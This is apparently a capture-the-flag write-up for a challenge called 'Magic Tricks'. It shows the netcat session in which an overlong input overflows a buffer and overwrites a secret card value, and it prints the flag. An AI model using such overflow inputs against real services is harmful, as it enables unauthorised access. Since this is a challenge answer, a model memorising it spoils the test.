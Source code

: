 # Magic Tricks

If all card tricks are supposedly based on distraction, you shouldn't be able to perform them on a computer?

```
nc ctf.wackattack.eu 5000
```

[⬇️ magic-trick.tgz](./magic-trick.tgz)

# Writeup

Saw that this was a buffer overflow one, I can easily overwrite the secret card to be whatever I want to be, strcomp only checks the first 5 letters so if I just blast equal letters till I overflow + 5 then I get the flag

```bash
$ nc ctf.wackattack.eu 5000
I have selected a playing card, there's no way you will guess what it is!
Enter your guess: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You guessed aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, the secret card was the ... aaaaaaaaaaaaaaaaaaaaa (hah)
wack{I_v0w_t0_st0p_m4king_puns_4nd_st4rt_s3curing_buff3r5}
```

# Flag

```
wack{I_v0w_t0_st0p_m4king_puns_4nd_st4rt_s3curing_buff3r5}
```
